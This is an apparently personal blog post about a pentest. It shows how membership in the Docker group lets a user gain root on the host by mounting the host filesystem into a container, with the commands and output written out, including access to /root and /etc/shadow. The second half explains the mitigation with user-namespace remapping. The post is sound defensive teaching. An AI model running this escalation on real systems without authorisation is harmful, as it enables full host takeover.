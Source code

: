 +++
title = "Privilege escalation using Docker"
date = "2020-08-25"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Docker", "Security"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = true
+++

I have done a little pentest audit on a friend VPS last week, he was providing Docker runtime
to some people, with SSH access, and wanted to know if his setup was secure.

By default, docker only allow to run command as root user, in most case this is not desired since giving
root access equals giving full power over the host. A simple workaround is to add the user to the 'docker'
group so that the user will be able to dial with the docker socket. And that's what my friend has done. But this setup
is **not secure at ALL** by default. 

Let's see how to use the docker group to gain full root access on the host.

This method is really similar to the [lxc group privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation),
and that's how I've found this one.

# Privilege escalation

The only thing I had on the VPS was an un-privileged user, like the
others users.

```sh
creekorful@docker01:~$ id
uid=1001(creekorful) gid=1001(creekorful) groups=1001(creekorful),998(docker)
```

Here we can see that we are in the docker group, so we can use the docker daemon.

To gain root access one the host, one can create a docker container and mount the host disk
inside it.

This can be done with the following command:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim /bin/sh
#
```

Here we are asking docker to create a container using the *debian:stable-slim image*, and run the */bin/sh* command inside it.

```sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

We are now root inside the container. Since Docker has SUID bit set, we were able to mount the whole host disk
inside the /mnt/root partition (*-v /:/mnt/root*).

Let's try to display */root* folder:

```sh
# ls -altr /mnt/root/root
total 56
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
drwx------  2 root root  4096 Mar 27 07:52 .ssh
drwx------  2 root root  4096 Mar 27 22:43 .docker
drwxr-xr-x  3 root root  4096 Mar 27 23:07 .local
drwx------  3 root root  4096 Jun  8 09:40 .config
-rw-------  1 root root 14924 Jul  7 07:33 .viminfo
drwx------  6 root root  4096 Jul  7 07:33 .
-rw-r--r--  1 root root  5253 Jul 10 10:29 .bash_history
drwxr-xr-x 18 root root  4096 Aug 23 20:14 ..
```

It works! One can now change the root password in */etc/shadow* for example
and gain full root access on the host.

# How to mitigate the exploit?

Fortunately solutions exist to prevent this exploit. I will cover the most straightforward one.

Each unix process have a /proc/self/{u,g}id_map files. These files are used to give an ID mapping,
and are inherited.

```sh
creekorful@docker01:~$ cat /proc/self/{u,g}id_map
         0          0 4294967295
         0          0 4294967295
```

This file tells us: uid 0 for current process is mapped to parent uid 0, and it's the same up to uid 4294967295.

What we will do mitigate the exploit is to map container uid 0 to something non-root (!= 0), fortunately this can
be done easily by using /etc/sub{g,u}id files.

```sh
creekorful@docker01:~$ cat /etc/sub{g,u}id
debian:100000:65536
creekorful:165536:65536
debian:100000:65536
creekorful:165536:65536
```

These files are used to determinate the allowed range of sub {user,group} ID allowed to use by the user.
The format is: *<user>:<sub{g,u}id>:<sub{g,u}id count>*

So what we will do is add an *dockremap* (special docker user) entry to these files, and limit the sub{g,u}id of this user.

I have asked my friend to perform the following:

Add the dockremap entry to the /etc/subuid file:

```
root@docker01:~# echo 'dockremap:100:65536' >> /etc/subuid
```

By doing this we are saying: root inside the container (0) will be mapped to uid (100) in parent process (on the host).

Now we must ask docker to create the container using the *dockremap* user.
This can be done by modifying /etc/docker/daemon.json

```json
{
  "userns-remap": "default"
}
```

(Default means use dockremap user).

And finally, just restart the docker daemon to apply the changes.

# Let's try again

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see we are still root inside the container. But what's for the outside?

```sh
# cat /proc/self/uid_map
         0        100      65536
```

as you can see the lower uid is now 100 instead of 0. We are no more root.

Let's try to check the content of /etc/shadow:

```sh
# cat /mnt/root/etc/shadow
cat: can't open '/mnt/root/etc/shadow': Permission denied
```

the exploit is now mitigated.
